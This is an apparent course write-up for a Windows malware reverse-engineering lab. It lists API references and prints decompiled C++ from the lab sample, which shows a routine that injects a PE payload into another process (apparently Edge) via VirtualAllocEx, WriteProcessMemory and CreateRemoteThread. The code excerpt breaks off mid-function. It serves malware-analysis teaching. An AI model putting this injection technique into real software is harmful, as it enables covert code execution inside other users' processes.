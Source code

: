 ```yaml
---
title: Simple Reverse - 0x21(2023 Lab - WinMalware - Extract Next Stage Payload - 3)
tags: [eductf, CTF, Reverse]

category: "Security/Course/NTU CS/Reverse/WinMalware Lab"
---
```


# Simple Reverse - 0x21(2023 Lab - WinMalware - Extract Next Stage Payload - 3)


## Background
* [VirtualAllocEx](https://learn.microsoft.com/zh-tw/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)
* [記憶體保護常數](https://learn.microsoft.com/zh-tw/windows/win32/Memory/memory-protection-constants)
* [WriteProcessMemory](https://learn.microsoft.com/zh-tw/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)
* [CreateRemoteThread](https://learn.microsoft.com/zh-tw/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)
* Export Address Table(EAT)
    > ![](https://hackmd.io/_uploads/rJuBbwaGT.png)
    > ![](https://hackmd.io/_uploads/HJEI-P6zp.png)
    > ![](https://hackmd.io/_uploads/S1Qu-PTM6.png)

## Source code
:::spoiler Source Code `sub_140001A60`
```cpp
__int64 __fastcall sub_140001A60(DWORD edge_pid, const void *pe_file, SIZE_T pe_file_size)
{
  DWORD v4; // eax
  DWORD LastError; // eax
  HANDLE hProcess; // [rsp+40h] [rbp-38h]
  char *lpBaseAddress; // [rsp+48h] [rbp-30h]
  LPTHREAD_START_ROUTINE lpStartAddress; // [rsp+50h] [rbp-28h]
  __int64 v9; // [rsp+58h] [rbp-20h] BYREF
  DWORD ThreadId; // [rsp+60h] [rbp-18h] BYREF

  v9 = 0i64;
  sub_1400018F0(pe_file, &v9);
  if ( v9 )
  {
    hProcess = OpenProcess(0x43Au, 0, edge_pid);
    if ( hProcess )
    {
      lpBaseAddress = (char *)VirtualAllocEx(hProcess, 0i64, pe_file_size, 0x3000u, 0x40u);
      if ( WriteProcessMemory(hProcess, lpBaseAddress, pe_file, pe_file_size, 0i64) )
      {
        lpStartAddress = (LPTHREAD_START_ROUTINE)&lpBaseAddress[v9];
        CreateRemoteThread(hProcess, 0i64, 0i64, (LPTHREAD_START_ROUTINE)&lpBaseAddress[v9], 0i64, 0, &ThreadId);
        sub_140001260("remote thread id: %lu, loader address: %p", ThreadId, lpStartAddress);
        return 1i64;
      }
      else
      {
        LastError = GetLastError();
        sub_140001260("WriteProcessMemory failed, %lu", LastError);
        return 0i64;
      }
    }
```